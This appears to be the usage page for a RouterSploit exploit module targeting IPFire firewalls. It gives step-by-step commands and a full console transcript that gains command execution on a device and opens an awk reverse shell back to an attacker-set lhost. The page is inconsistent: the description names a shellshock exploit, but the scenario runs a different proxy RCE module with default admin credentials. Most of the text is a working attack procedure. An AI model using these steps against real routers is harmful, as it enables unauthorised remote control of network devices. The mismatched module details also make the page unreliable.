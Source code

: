 ## Description
Exploits shellshock vulnerability in IPFire <= 2.15 Core Update 82. If the target is vulnerable 
it is possible to execute commands on operating system level.

## Verification Steps

    1. Start `./rsf.py`
    2. Do: `use exploits/routers/ipfire/ipfire_shellshock`
    3. Do: `set target [TargetIP]`
    4. Do: `run`
    5. If router is vulnerable, it should be possible to execute commands on operating system level.

    6. Do: `set payload awk_reverse_tcp`
    7. Do: `set lhost [AttackerIP]`
    8. Do: `run`
    9. Payload is sent to device and executed providing attacker with the command shell.

## Scenarios

```
rsf > use exploits/routers/ipfire/ipfire_proxy_rce
rsf (IPFire Proxy RCE) > set target 192.168.2.88
[+] target => 192.168.2.88
rsf (IPFire Proxy RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   ssl        true                 SSL enabled: true/false
   target     192.168.2.88         Target IPv4 or IPv6 address
   port       444                  Target HTTP port


Module options:

   Name          Current settings     Description
   ----          ----------------     -----------
   verbosity     true                 Verbosity enabled: true/false
   username      admin                Username to log in with
   password      admin                Password to log in with


rsf (IPFire Proxy RCE) > run
[*] Running module...
[+] Target is vulnerable
[*] Invoking command loop...

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > uname -a
[*] Executing 'uname -a' on the device...
Linux ipfire 3.10.44-ipfire #1 SMP Tue Sep 9 18:11:30 GMT 2014 i686 i686 i386 GNU/Linux

cmd > show payloads
[*] Available payloads:

   Payload             Name                Description
   -------             ----                -----------
   awk_bind_udp        Awk Bind UDP        Creates an interactive udp bind shell by using (g)awk.
   awk_bind_tcp        Awk Bind TCP        Creates an interactive tcp bind shell by using (g)awk.
   awk_reverse_tcp     Awk Reverse TCP     Creates an interactive tcp reverse shell by using (g)awk.

cmd > set payload awk_reverse_tcp
cmd (Awk Reverse TCP) > show options

Payload Options:

   Name        Current settings     Description
   ----        ----------------     -----------
   lhost                            Connect-back IP address
   lport       5555                 Connect-back TCP Port
   encoder                          Encoder
   cmd         awk                  Awk binary


cmd (Awk Reverse TCP) > set lhost 192.168.2.100
lhost => 192.168.2.100
cmd (Awk Reverse TCP) > run
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.2.88:48775
[+] Enjoy your shell
id
uid=99(nobody) gid=99(nobody) groups=16(dialout),23(squid),99(nobody)
```
